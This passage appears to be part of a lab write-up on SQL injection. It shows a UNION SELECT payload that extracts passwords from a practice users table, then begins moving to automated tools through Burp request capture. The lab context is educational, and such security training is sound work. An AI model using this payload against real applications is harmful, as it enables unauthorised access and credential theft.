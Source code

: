 ```
Senpai Knife Set' union select null,null,null,password from injection0x03_users#
```

<figure><img src="../../../../.gitbook/assets/image (272).png" alt=""><figcaption></figcaption></figure>

Username and Password busted, now let's try using automated tools:

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

Make a request on the website, capture the packet on burp and copy paste it in a .txt file                                                                                                           &#x20;
